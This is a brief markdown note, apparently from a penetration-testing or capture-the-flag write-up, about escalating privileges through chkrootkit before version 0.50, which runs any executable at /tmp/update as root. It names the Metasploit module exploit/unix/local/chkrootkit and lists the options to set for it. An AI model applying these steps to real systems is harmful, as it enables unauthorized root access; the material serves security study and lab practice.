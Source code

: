 
This thing scans our Linux system for rootkits. 


### **MSF Module to exploit:**
Chkrootkit before 0.50 will run any executable file named /tmp/update
  as root, allowing a trivial privilege escalation.

  WfsDelay is set to 24h, since this is how often a chkrootkit scan is
  scheduled by default.


	exploit/unix/local/chkrootkit




1. `set CHROOTKIT <chrootkit_path>`
2. `set SESSION <session_id>`
3. and set `RHOST` an `LHOST`

